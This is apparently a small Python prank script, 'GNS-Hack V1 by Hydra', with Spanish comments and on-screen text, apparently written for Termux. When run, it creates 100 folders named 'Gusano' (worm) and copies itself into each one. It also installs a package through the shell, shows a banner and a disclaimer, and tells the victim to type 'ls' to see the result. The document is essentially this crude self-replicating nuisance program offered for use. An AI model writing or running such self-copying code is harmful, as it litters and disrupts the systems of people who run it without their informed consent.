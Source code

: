import subprocess,sys,shutil
import os

#!Rojo
R='\033[1;31m'

#!Verde
V='\033[1;32m'
GOKE='\033[92m'

#!Amarillo
Y='\033[1;33m'

#!Azul
B='\033[0;34m'

#!Morado
M='\033[1;35m'

#!Cian
C='\033[1;36m'

#!Blanco
W='\033[0m'

filename = sys.argv[0]

for x in range(100):
    path = "Gusano "+str(x)
    subprocess.call("mkdir {}".format(path),shell=True)
    shutil.copy(filename,path)

os.system("pkg install figlet")
os.system("clear")
os.system("sleep 1")
print (R)
os.system("figlet Bienvendio a")
os.system("sleep 1")
os.system("figlet GNS-Hack V1")                                                         print(Y)
print ("                                                    by: Hydra")
os.system("sleep 00.01")
print (B)
print ("_________________________________________________________________")
os.system("sleep 1")
print (M)
print (" * Este script esta echo en codigo Python.")
os.system("sleep 1")
print(M)
print (" * Si llegaste a ejecutar el script, no me hago responsable.")
os.system("sleep 1")
print ("\n * Pon el comando 'ls' para ver lo que sucedio.")
print(B)
print ("_________________________________________________________________")
